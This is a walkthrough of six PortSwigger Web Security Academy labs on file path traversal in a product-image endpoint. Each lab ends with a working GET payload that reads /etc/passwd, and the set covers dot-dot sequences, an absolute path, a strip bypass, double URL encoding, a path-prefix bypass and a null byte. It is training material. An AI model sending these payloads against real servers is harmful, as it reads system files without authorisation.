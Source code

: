 01 File path traversal, simple case
===================================

This lab contains a file path traversal vulnerability in the display of product
images.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/139c9ce01b776b7f3a3fb141a9343df6.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/0e22a24fd14be32a322e7c508df38d3f.png)

To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/034152c8c3612bc1484e845075e707c9.png)

02 File path traversal, traversal sequences blocked with absolute path bypass
=============================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks traversal sequences but treats the supplied filename as
being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/a63e483ea5fa3ff00f7180a843f12afc.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/d466cd33a6727e27dc8e96b840650585.png)

To retrieve /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/76404ba656f250a26c74251d8c17fba6.png)

03 - File path traversal, traversal sequences stripped non-recursively
======================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application strips path traversal sequences from the user-supplied filename
before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/kb/issues/00100300_file-path-traversal

-   https://portswigger.net/web-security/file-path-traversal

Generated link:
https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/

When accessing Home or a post we have GET requests like this one:

![img](media/e016b17a46336c966f2c9f7b9b9e9e0c.png)

![img](media/5f09778f180d5e78bffecfdfd0670cc9.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/bc4fa6c7417a7237cba40a7e8332326f.png)

04 File path traversal, traversal sequences stripped with superfluous URL-decode
================================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application blocks input containing path traversal sequences. It then
performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/fdbd5d63445692f871f7fb41b1ed761b.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/d5eb3f6fc68465fa443b33106ef5b31f.png)

To retrieve /etc/passwd we need to use double URL encode the characters:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/b6afd583b7f280a9e95658fcd5d30c1c.png)

05 File path traversal, validation of start of path
===================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application transmits the full file path via a request parameter, and
validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/4f972850928c3ad8517867c1f973ef53.png)

To retrieve an image the application uses a GET request with the parameter
filename and the full path:

![img](media/a29b0d5cc8689101a10a54e5d12437d6.png)

To retrieve /etc/passwd we need the path to start with “/var/www/images/”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=/var/www/images/../../../etc/passwd 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/f215b9e860b3ce56a6c1450c6bfd950f.png)

06 File path traversal, validation of file extension with null byte bypass
==========================================================================

This lab contains a file path traversal vulnerability in the display of product
images.

The application validates that the supplied filename ends with the expected file
extension.

To solve the lab, retrieve the contents of the /etc/passwd file.

References:

-   https://portswigger.net/web-security/file-path-traversal

![img](media/5d677ac6ace62d023da27d5e05939149.png)

To retrieve an image the application uses a GET request with the parameter
filename:

![img](media/85b00c6e98b89b215f693f0b6d5bcdbb.png)

To retrieve /etc/passwd we need to use the null byte:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /image?filename=../../../etc/passwd%00.png
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/ad61e0bd38b3b706cb8576cd9779233a.png)
